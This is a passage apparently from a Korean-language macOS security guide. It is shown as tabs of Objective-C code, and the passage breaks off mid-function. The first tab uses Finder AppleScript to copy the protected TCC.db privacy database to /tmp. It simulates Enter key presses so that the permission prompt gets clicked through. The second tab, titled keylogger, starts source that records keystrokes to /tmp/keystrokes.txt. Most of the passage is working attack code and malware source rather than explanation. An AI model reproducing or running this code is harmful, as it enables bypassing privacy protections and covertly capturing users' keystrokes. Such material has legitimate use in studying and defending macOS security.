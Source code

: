 ```objectivec
void RunAppleScript() {
NSLog(@"Starting AppleScript");
NSString *scriptSource = @"tell application \"Finder\"\n"
"set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias\n"
"set targetFolder to POSIX file \"/tmp\" as alias\n"
"duplicate file sourceFile to targetFolder with replacing\n"
"end tell\n";

NSDictionary *errorDict = nil;
NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:scriptSource];
[appleScript executeAndReturnError:&errorDict];

if (errorDict) {
NSLog(@"AppleScript Error: %@", errorDict);
}
}

int main() {
@autoreleasepool {
dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
RunAppleScript();
});

// Simulate pressing the Enter key every 0.1 seconds
NSLog(@"Starting key presses");
for (int i = 0; i < 10; ++i) {
SimulateKeyPress((CGKeyCode)36); // Key code for Enter
usleep(100000); // 0.1 seconds
}
}
return 0;
}
```
{% endtab %}

{% tab title="키로거" %}
누른 키를 **`/tmp/keystrokes.txt`**에 저장합니다.
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <Carbon/Carbon.h>

// clang -framework Foundation -framework ApplicationServices -framework Carbon -o KeyboardMonitor KeyboardMonitor.m

NSString *const kKeystrokesLogPath = @"/tmp/keystrokes.txt";

void AppendStringToFile(NSString *str, NSString *filePath) {
NSFileHandle *fileHandle = [NSFileHandle fileHandleForWritingAtPath:filePath];
if (fileHandle) {
[fileHandle seekToEndOfFile];
[fileHandle writeData:[str dataUsingEncoding:NSUTF8StringEncoding]];
[fileHandle closeFile];
} else {
// If the file does not exist, create it
[str writeToFile:filePath atomically:YES encoding:NSUTF8StringEncoding error:nil];
}
}

CGEventRef KeyboardEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
if (type == kCGEventKeyDown) {
CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

```
